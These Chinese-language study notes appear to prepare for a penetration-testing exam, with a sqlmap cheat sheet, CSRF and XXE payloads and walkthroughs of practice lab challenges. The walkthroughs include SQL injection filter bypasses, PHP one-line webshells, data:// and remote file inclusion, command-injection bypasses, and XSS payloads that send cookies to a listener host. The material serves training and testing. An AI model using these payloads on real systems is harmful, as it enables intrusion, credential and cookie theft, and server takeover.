- 自定义数据

`--data="user=8023&pass=xxx"       自定义POST请求`

`--cookie=""`

`--proxy=""`

`--random-agent                随机使用User-Agent（改变sqlmapUA绕过杀软检测）`

- 测试等级

`--level=1                           1-5，默认1，渗透3，级别高检测内容就多`

- 风险等级

 `--risk=1                            1-3，默认1，级别高对服务器的危害就大`

- 输出等级

 `-v 1                                    0-6，默认1，级别高显示更详细`

- 获取内容

` --dbs`          数据库

`--tables`     表

`--columns`   列

`--dump`         数据

`--file-read /etc/pass                      读取某文件内容`

`--current-db                                 获取正在使用的数据库名`
`--current-user                              获取正在使用的用户名`
`--passwords                                  获取用户密码信息内容`

`-a                                                     获取所有（不建议）`

- 指定已知内容

`-D pikachu`

`-T users`

`-C username,password`

- 替换模版

> --tamper "space2comment"               空格转注释
>
> ​			charencode                               编码
>
> ​			charunicodeencode                
>
> ​			randomcomment                   关键字过滤
>
> ​			equal2like                                 等号过滤
>
> ​			space2plus                                空格转+

- 其他选项 

`--batch                  不使用交互攻击，直接使用默认选项`

`--purge                  清空sqlmap缓存（类似于重置）`

**注入示例：**

> sqlmap.py --dbs
> -u "http://127.0.0.1:8082/vulnerabilities/sqli/?id=1&Submit=Submit#" 
> --cookie="PHPSESSID=74abd58cvtj25723u7grlgu3h5; security=low"
>
> sqlmap.py --tables -D dvwa 
> -u "http://127.0.0.1:8082/vulnerabilities/sqli/?id=1&Submit=Submit#" 
> --cookie="PHPSESSID=74abd58cvtj25723u7grlgu3h5; security=low"
>
> sqlmap.py --columns -D dvwa -T users
> -u "http://127.0.0.1:8082/vulnerabilities/sqli/?id=1&Submit=Submit#" 
> --cookie="PHPSESSID=74abd58cvtj25723u7grlgu3h5; security=low"
>
> sqlmap.py --dump -C user,password -D dvwa -T users --batch
> -u "http://127.0.0.1:8082/vulnerabilities/sqli/?id=1&Submit=Submit#" 
> --cookie="PHPSESSID=74abd58cvtj25723u7grlgu3h5; security=low"

注入点和回显点不在同一个页面的情况:

`--second-url=""`



正则匹配特征： 
Re      preg    /xxx/y

```
^172\.16\.12\.12 -.* "[A-Z]+ /.*(asp|php|jsp).*" 200 
```

## 防御手段

![image-20241123230928456](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241123230928456.png)

# CSRF 

## 原理

利用（受害者）未失效的身份认证信息，诱骗点击或访问，向服务器发送可信任请求，达到非法操作的目的。

## CSRF和XSS区别

![image-20230919114136335](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230919114136335.png)

**CSRF与XSS最大的区别就是，CSRF并没有盗用cookie而是直接利用。**

## GET型CSRF

伪装表单如下：

```
<html>
<head>
<title>404 NotFound</title>
</head>
<body>
<h1>404 NotFound</h1>
<img src="http://127.0.0.1:8083/vul/csrf/csrfget/csrf_get_edit.php?
sex=boy&phonenum=80238023&add=nba%20lakes&email=kobe%40pikachu.com&submit=submit"/>
</body>
</html>
```

## POST型CSRF

构造页面如下：

```
<html>
  <script>
	window.onload = function () {
		document.getElementById("suibian").click();
	}
  </script>
  <body>
    <form action="http://127.0.0.1:8083/vul/csrf/csrfpost/csrf_post_edit.php" method="POST" hidden>
      <input name="sex" value="boy" />
      <input name="phonenum" value="12345678" />
      <input name="add" value="nba lakes" />
      <input name="email" value="kobe&#64;pikachu&#46;com" />
      <input name="submit" value="submit" />
      <input type="submit" id="suibian" value="Submit request" />
    </form>
  </body>
</html>
```

 注：可利用burpsuit右键的Engagement tools——CSRF PoC，来自动生成一个表单

# SSRF（PTS）

# XXE(PTS)

payload

```
<?xml version="1.0" ?>
<!DOCTYPE xxe [
      <!ENTITY val "hello">
]>
<p>&val;</p>
```

**读文件**

*encoding和ANY部分可适当删减*

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE xxe [
    <!ELEMENT xxe ANY >
    <!ENTITY val SYSTEM "C:/Windows/win.ini">
]>
<p>&val;</p>
```

**执行命令**

（前提是装了expect扩展）

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE xxe [
    <!ENTITY val SYSTEM "expect://whoami">
]>
<p>&val;</p>
```

# 反序列化

**把字符串还原为变量/对象**

> 字符串
>
> s:44:"Whatever is worth doing is worth doing well.";
>
> 整数
>
> i:8023;
>
> 布尔
>
> b:1;     true
>
> b:0;     flase
>
> 小数
>
> d:3.1400000000000001;
>
> 数组
>
> a:2:{i:0;s:3:"php";i:1;s:5:"array";}

# 真题（基础）

**环境**

11.1.10.11 - 11.1.10.16 / 10.1.10.11 - 10.1.10.16

## 34071 - 34075、34051

### 34071 注入

![image-20241124103718796](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124103718796.png)

此题目注入点和闭合已给出

![image-20241124104041143](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124104041143.png)

尝试order by *爆列数

```
http://11.1.10.11:34071/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d6' order by 4-- 

http://11.1.10.11:34071/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d6' order by 4%23
```

`select * from Article where uuid = '983fd952-df4e-4b63-946f-f2e6bb0327d6' order by 4'`

后闭合注释时发现代码对对  `--空`  和  `#`  都过滤掉了，所以不能进行双写绕过。

#### 方法一：不采用注释

采用手动单引号闭合，发现可行

`http://11.1.10.11:34071/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d6' order by ‘4`

![image-20241124105739640](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124105739640.png)

但是order by 后必须接数字，’4‘是一个字符串，所以order by在这里就不能用了

**注：**

> 查询列数
>
> order by *
>
> union select 1,2,3,4       联合查询时只有列数一致才能查询出结果

使用union select尝试，错误显示无数据报错页面，直至字段6页面加载成功。（注意列数闭合）

http://11.1.10.11:34071/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d6' union select '1','2','3','4','5','6

![image-20241124111300034](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124111300034.png)

接着再将uid改为一个查询不到的页面，可以看到注入点是2和3字段

![image-20241124111511297](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124111511297.png)

对字段2进行数据库查询

`http://11.1.10.11:34071/start/index.php?uuid=xx' union select '1',database(),'3','4','5','6`

结果为2web

在字段3进行注入，使用火狐插件（如果执行不成功，考虑是否不适配加号，需要改为空格），

![image-20241124112049334](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124112049334.png)

爆表名

![image-20241124112231351](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124112231351.png)

对IS_KEY表爆列名

![image-20241124112508943](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124112508943.png)

对haha列爆数据

![image-20241124112953765](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124112953765.png)

得到key1：0xs5kfdz

#### 方法二：绕过注释过滤

对两个过滤符进行组合，采用  `-#-空`  尝试

![image-20241124113923659](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124113923659.png)

发现-- 的注释可行，对减减空进行url编码

`http://11.1.10.11:34071/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d6' -%23-%20`

![image-20241124114907541](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124114907541.png)

接下来就可以使用order by进行列名爆破

`http://11.1.10.11:34071/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d6' order by 6 -%23-%20`

接着采用union select寻找注入点

`http://11.1.10.11:34071/start/index.php?uuid=xx' union select 1,2,3,4,5,6 -%23-%20`

后面跟方法一同样，进行数据库爆破

### 34072 文件上传

![image-20241124115607636](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124115607636.png)

一、上传正常图片查看逻辑

文件上传到了根目录     http://11.1.10.11:34072/Desert.jpg

二、上传图片马，对比器对比数据包校验逻辑

![image-20241124153232203](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124153232203.png)

发现其对文件内容有校验

发送到重放攻击器中进行数据包修改，不同的内容进行适当删减，发现其对eval关键字进行了过滤

![image-20241124153851068](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124153851068.png)

三、采用大小写绕过，

<?php @EvAl($_POST['x']; ?>

> **html：不区分大小写**
>
> **JavaScript：区分大小写**
>
> **PHP：函数不区分大小写，变量区分大小写**

修改文件名后缀为php，上传成功

四、访问上传文件路径，验证是否可执行命令

x=phpinfo();

五、蚁剑连接木马

![image-20241124164311856](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124164311856.png)

key2:3do7lvwf

### *34073 文件包含 (加后缀)

![image-20241124161555552](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124161555552.png)

![image-20241124161705356](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124161705356.png)

参数会自动添加后缀，

#### 方法一：data协议

`http://11.1.10.11:34073/start/index.php?page=data://text/plan,<?php phpinfo(); ?>`

![image-20241124162416170](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124162416170.png)

发现对data;//进行了过滤

对其进行双写绕过，命令执行成功

![image-20241124162649072](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124162649072.png)

执行`http://11.1.10.11:34073/start/index.php?page=dadata://ta://text/plan,<?php @eval($_POST['x']); ?>`

蚁剑连接，得到key3：5zi3nrhz

![image-20241124163635052](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124163635052.png)

#### 方法二：远程文件包含

桌面创建同扩展名文件进行端口监听，远程包含本地主机此文件，建立shell连接

![image-20241127153953590](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241127153953590.png)

### 34074  反序列化

![image-20241124164759350](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124164759350.png)

![image-20241124165317245](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124165317245.png)

输入——》反序列化（解码）——》TEMP

TEMP——》序列化（编码）——》输入

```
 <?php
$TEMP = "Whatever is worth doing is worth doing well.";
echo serialize($TEMP);
```

将此代码写入到上一题的web根目录中

![image-20241124170253483](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124170253483.png)

访问http://11.1.10.11:34073/zzz.php得到

```
s:44:"Whatever is worth doing is worth doing well.";
```

​              字符串字段数即是引号里面包括空格和标点所有字符个数。

在此题的url进行提交

...?str=s:44:"Whatever is worth doing is worth doing well.";

![image-20241124170737905](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124170737905.png)

### *34075 失效的访问控制

![image-20241124172134087](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124172134087.png)

抓包，只允许本地访问，发现对admin和usename有校验

![image-20241124172344591](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124172344591.png)

修改IsAdmin=true

Usename=admin进行base64——url编码

添加`X-Forwarded-For:127.0.0.1`突破

![image-20241124175802740](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124175802740.png)

**这里特别注意XFF伪造头的位置，应该在Contnt-Length（消息实体的传输长度）之前！！！！**

![image-20241127165650518](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241127165650518.png)

### *34051 注入（万能密码登录）

![image-20241124180300033](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124180300033.png)

测试万能密码，发现对`or`和`#`有过滤

![image-20241124190631274](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124190631274.png)

尝试双写，失败

尝试大小写混合

![image-20241124190955745](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124190955745.png)

#注释过滤的话考虑进行后闭合 `username=1' Or '1'='1'&password=2`，此注入点不成功

对password万能密码尝试且闭合    `username=1&password=2' Or '1'='1`

![image-20241124191338122](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124191338122.png)

## 34041 - 34045、34213、34224

### 34041 注入

![image-20241124192113641](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124192113641.png)

一、sqlmap注入

```
sqlmap.py -u http://11.1.10.13:34041/vulnerabilities/fu1.php?id=1 --file-read /tmp/360/key --batch 
```

![image-20241124213722702](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124213722702.png)

根据提示添加修改

```
sqlmap.py -u http://11.1.10.13:34041/vulnerabilities/fu1.php?id=1 --file-read /tmp/360/key --batch --tamper=space2comment
```

![image-20241124214244995](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124214244995.png)



访问保存位置，得到key:8b3h4a7v

二、手工注入

采用order by爆列数，发现空格被过滤，采用`/**/`替换

![image-20241124215206830](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124215206830.png)

爆出4列，采用union select爆注入点![image-20241124215613653](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124215613653.png)

发现union被过滤，双写绕过；并修改访问不存在页面

![image-20241124215855603](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124215855603.png)



在任意注入点读文件

`http://11.1.10.13:34041/vulnerabilities/fu1.php?id=-1') /**/ununionion/**/ select/**/ 1,load_file('/tmp/360/key'),3,4%23`

![image-20241124220400355](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124220400355.png)

### 34042 文件上传

![image-20241124220503744](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124220503744.png)

测试上传逻辑，上传到了目录/vulnerabilities/Desert.jpg![image-20241124220707115](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124220707115.png)

上传图片马对比不同

![image-20241124221121167](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124221121167.png)

![](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124222102529.png)

内容不同，但是上传成功，说明对图片内容没有校验。

发送重放器进行后缀修改上传，发现.php后缀上传失败，

![image-20241124222636787](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124222636787.png)

修改为`.pht`上传成功

蚁剑连接 http://11.1.10.13:34042/vulnerabilities/picshell.pht，得到根目录key.php

![image-20241124223700047](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124223700047.png)

### *34043 文件包含（读源码）

![image-20241124223823044](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124223823044.png)

`file=`可以直接包含，此时目录在/vulnerabilities/fu1.php同级目录下，需要一次../跳转到根目录

![image-20241124224601675](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124224601675.png)

查看源代码，发现key内容并没有在源代码中进行输出展示，那就可能存在在注释里

![image-20241124224932701](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124224932701.png)

采用读源码的方式进行key.php读取

```
http://11.1.10.13:34043/vulnerabilities/fu1.php?file=php://filter/read=convert.base64-encode/resource=../key.php
```

![image-20241124230056227](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124230056227.png)

对其内容进行base64解码，在注释中得到key

![image-20241124230423289](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124230423289.png)

### 34044 命令执行

![image-20241124230531508](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124230531508.png)

使用127.0.0.1验证存活状态

![image-20241124230732388](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124230732388.png)



whoami验证命令执行，cat读文件是被过滤

![image-20241124231024248](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124231024248.png)

使用`grep '' ../key.php`      `grep . ../key.php`   `tac ../key.php`任意一个读取

![image-20241124233059441](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124233059441.png)

右键源代码查看Get it！

![image-20241124233206677](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124233206677.png)

### 34045 日志分析

![image-20241124233618327](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124233618327.png)

下载日志http://11.1.10.12:34045/access.log

在文件中利用正则筛选

![image-20241124234849057](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124234849057.png)

```
^172\.16\.12\.12 .* "[A-Z]+ /.*\.(php|asp|jsp).* 200 
```

![image-20241124235526768](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241124235526768.png)

尝试访问http://11.1.10.12:34045/adminlogin.php

对此页面进行爆破

![image-20241125000411482](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125000411482.png)

![image-20241125000635973](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125000635973.png)

使用用户名密码登录，得到key

### 34213 XSS

![image-20241125152018426](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125152018426.png)

key在后台，需要伪造cookie登录到后台

<script>
    document.write('<img src="http://11.1.12.101:8011/?'+document.cookie+'">');
</script>

![image-20241125155838088](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125155838088.png)

进行nc端口监听

```
nc.exe -l -p 8011
```

提交查询，再次加载主页Welcome，看到nc监听成功，提交代码有效

![image-20241125160257786](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125160257786.png)

**注**：如果此处代码无误却执行不成功，要检查网络是否是工作网络，确保互通。

`CTRL+C`停掉监听，再次监听8011端口，等待……

![image-20241125160946207](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125160946207.png)

有PhantomJS指纹，表示此环境监听cookie成功，替换PHPSESSID到浏览器伪造身份

![image-20241125161434738](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125161434738.png)

*如果此处没有PHPSESSID，可以随便输入登录一下，使其有记录*

接着访问主页面http://11.1.10.12:34213——点击Admin，得到key

![image-20241125161930827](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125161930827.png)

### 34224 XSS

![image-20241125162024538](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125162024538.png)

直接伪造cookie

<script>
    document.write('<img src="http://11.1.12.101:8012/?'+document.cookie+'">');
</script>

![image-20241125162421659](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125162421659.png)

监听8012端口，执行有效

![image-20241125162558862](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125162558862.png)

这里一定要访问首页主页，我这一步出错了

访问正确的话，key直接在首页的url里

![image-20241125163934524](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125163934524.png)

## 34031 - 34035、34061 、34212

### 34031 二阶sql注入

![image-20241125164135522](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125164135522.png)   

先创建一个用户登入看看校验逻辑

![image-20241125165458716](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125165458716.png)

看到有”重置密码“

有三个可输入点：登录、注册、密码重置

```
注入探测语句      '")a;-- #
```

尝试结果：

```
正常账户+重置正常密码       成功

正常账户+重置异常密码       成功

异常账户+重置正常密码       失败

异常账户+重置异常密码       失败

```

所以对于异常账户的密码重置存在注入，即账户注册是注入点，重置密码是执行点、回显点

此情况不能用sqlmap去跑！

因此可以对admin账户密码进行重置，重新注册发现有校验

![image-20241125172128765](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125172128765.png)

注册语法，可以注册一个admin'-- 的账户

```
update set password=xxx where useneme='admin'-- '
```

![image-20241125172800663](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125172800663.png)然后进行密码重置，即是重置admin用户密码，登录得到key

![image-20241125173122295](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125173122295.png)

### 34032 文件上传

![image-20241125173244857](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125173244857.png)

校验逻辑，上传picshell.jpg失败，说明对内容有校验

利用../php/免杀一句话/sqzr.php在重放器进行木马替换，修改上传后缀为php

![image-20241125174607509](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125174607509.png)

蚁剑连接，得到根目录key

### *34033 文件包含

![image-20241125180056872](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125180056872.png)

测试发现不让包含任意文件

![image-20241125181047509](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125181047509.png)

只有view.html页面才有内容，直接访问http://11.1.10.12:34033/start/view.html查看源码

![image-20241125181230562](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125181230562.png)

解码为[@eval(base64_decode($_POST[z0]));]    对z0参数有编码和执行

```
Hello=1&z0=phpinfo();      ————     Hello=1&z0=Hello=1&z0=cGhwaW5mbygpOyA=
```

在包含页面post处提交

![image-20241125182547840](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125182547840.png)

方式一：命令读取

```
Hello=1&z0=system('cat ls ../key.php');       ————       Hello=1&z0=c3lzdGVtKCdjYXQgbHMgLi4va2V5LnBocCcpOw==
```

![image-20241125183317996](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125183317996.png)

方式二：自己写一个马进行包含，用蚁剑连接

```
Hello=1&z0=eval($_POST['x']);  ————   Hello=1&z0=IGV2YWwoJF9QT1NUWyd4J10pOw==
```

在蚁剑中填写两个body参数，成功连接

![image-20241125211957617](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125211957617.png)

### 34034  代码审计

![image-20241125212331705](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125212331705.png)

![image-20241125212948501](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125212948501.png)

此段代码输出cmd参数值的字段长度，exec执行后不展示结果

所以可以把内容输出到一个文件中，即重定向内容来访问

```
http://11.1.10.12:34034/start/vul.php?cmd=ls > z.txt
```

![image-20241125213353713](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125213353713.png)

### 34035 命令执行

![image-20241125213636358](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125213636358.png)

![image-20241125213752103](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125213752103.png)

测试发现对管道符|、whoami、cat、tac、head、tail、more、less、key.php都有过滤

提供几个执行成功的：

```
&&grep '' ../key.*

&&grep . ../key.*

awk {print}  ../key.*

sed ''  ../key.*

&&diff /etc/hostname ../key.*
```

![image-20241125214408106](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125214408106.png)

![image-20241125220744724](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125220744724.png)

源代码查看key

### *34061  注入（模糊查询）

![image-20241125220857882](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125220857882.png)

![image-20241125221008890](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125221008890.png)

闭合已给出

爆列数

![image-20241125221243638](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125221243638.png)



发现`#`被过滤，使用-- 注释，爆出7列

![image-20241125221530845](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125221530845.png)

union select爆注入点，发现`union`被过滤

![image-20241125221813133](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125221813133.png)



双写绕过，访问不存在页面

![](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125222051121.png)

注入点为2，3，4

直接使用load_file读文件

![image-20241125222819510](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125222819510.png)

### *34212 文件上传

![image-20241125223416622](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125223416622.png)

验证上传逻辑，发现不知道上传目录

![image-20241125223651152](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125223651152.png)

使用御剑扫描一下这个站点

![image-20241125224208347](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125224208347.png)

验证其上传路径为   http://11.1.10.12:34212/upload/picshell.jpg

抓包重放进行逻辑验证

![image-20241125224906339](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125224906339.png)

发现对`<?php`和`eval`都有过滤

使用如下木马：

<script language="php">@Eval($_POST['x']);</script>

又发现其对后缀也有过滤，使用pht上传

![image-20241125225221960](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125225221960.png)

访问http://11.1.10.12:34212/upload/picshell.pht

之后蚁剑连接可得key

## 34021 - 34025、34214、34223、34234

### 34021 二阶sql注入

![image-20241126000703432](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126000703432.png)

![image-20241126000957330](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126000957330.png)

注释符后可以注册任意格式的账号，接着对admin'#aaa账户进行密码重置，即重置admin密码进行登入

![image-20241126001301193](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126001301193.png)

### *34023  文件包含

![image-20241126001718577](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126001718577.png)

直接使用菜刀连接，密码Hello

![image-20241126002428570](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126002428570.png)

### 34024 日志分析

![image-20241126002609637](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126002609637.png)



对日志进行正则筛选

```
^.* "[A-Z]+ /(?!/?(index|footer|upload|manage|nav)).*\.(php|asp|jsp).*" 200
```

![image-20241126004712605](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126004712605.png)

访问http://11.1.10.12:34024/admin/backdoor.php，即可获取key

![image-20241126004815358](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126004815358.png)

### 34025 命令执行

![image-20241126005103487](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126005103487.png)

![image-20241126005159384](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126005159384.png)

对cat有过滤，使用c''a\t绕过（此处为一对单引号）

![image-20241126005515914](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126005515914.png)

### 34214 代码审计

![image-20241126005804965](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126005804965.png)

解析代码

![image-20241126102433849](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126102433849.png)

![image-20241126102813622](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126102813622.png)



![image-20241126103126892](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126103126892.png)

```
{"bar1":"8023x","bar2":[[0],1,2,3,4],"bar3":"[cisp-pte]"}
```

在url中提交w参数

![image-20241126103839064](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126103839064.png)

### 34223 文件包含

![image-20241126104004060](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126104004060.png)

![image-20241126104046200](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126104046200.png)

发现提交会添加后缀

#### 方法一：data协议

直接本地包含木马，用蚁剑连接

```
http://11.1.10.12:34223/start/index.php?page=data://text/plan,<?php @eval($_POST['x']); ?>
```

或者直接命令读取，用data协议外带出来

```
http://11.1.10.13:34223/start/index.php?page=data://text/plan,<?php system('cat ls ../key.php'); ?>
```

#### 方法二：远程文件包含

首先在本地创建一个txt同名木马文件，使用python监听8013端口

![image-20241126112416886](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126112416886.png)

直接在url中进行远程主机shell.txt的包含

http://11.1.12.154:8013/shell   这里因为.txt会自动添加，所以访问时需要取消

![image-20241126113212371](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126113212371.png)

然后使用蚁剑连接获取key.php

**注**：蚁剑连接时，需要确保python监听持续！

### *34234 代码审计

![image-20241126113658268](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126113658268.png)

提交了参数a

输出了$o=strtolower("$a")

#### 方法一：对`a`注入

![image-20241126114303996](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126114303996.png)



测试其命令回显，成功

![image-20241126114714532](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126114714532.png)

一、直接读文件

```
http://11.1.10.12:34234/start/vul.php?a=");system("cat key4.php");%23    
```

![image-20241126115042802](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126115042802.png)

二、传木马用蚁剑连接

```
?a=");eval($_POST['x']);%23
```

![image-20241126115429079](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126115429079.png)

#### 方法二、php双引号解析特性

原理：

![image-20241126120250700](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126120250700.png)

可以直接利用{}组来进行命令执行 `$o=strtolower("${system('ls')}")`

```
http://11.1.10.12:34234/start/vul.php?a=${system('ls')}
```

![image-20241126120904773](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126120904773.png)

接下来步骤同上

```
http://11.1.10.12:34234/start/vul.php?a=${system('cat key4.php')}
```

## 34011 - 34015

### 34011 注入

![image-20241126121735046](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126121735046.png)

尝试逻辑，注册和登录页面都成功没有报错，验证不同账户的发表页面

![image-20241126142438861](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126142438861.png)

![image-20241126142914596](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126142914596.png)

![image-20241126143734275](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126143734275.png)

![image-20241126143810418](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126143810418.png)

```
发表正常账号+正常留言    成功

发表正常账号+异常留言    失败

发表异常账号+异常留言    失败

发表异常账号+正常留言    失败
```

猜测插入语句应该最少三项

insert into artical(..,title,content,usename,time)value(...,'aa','aa','aa','2024')

#### 方式一：注释未过滤

构造验证:

```
title=aa&content=aa')#      失败

语法    insert into artical(...,title,usename,content,time)value(...,'aa','aa','aa','2024')#
```

```
title=aa&content=aa','')#        成功

语法    insert into artical(...,title,usename,content,'')value(...,'aa','aa','aa','')#
```

测试**content字段是倒数第二个**

![image-20241126150951524](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126150951524.png)

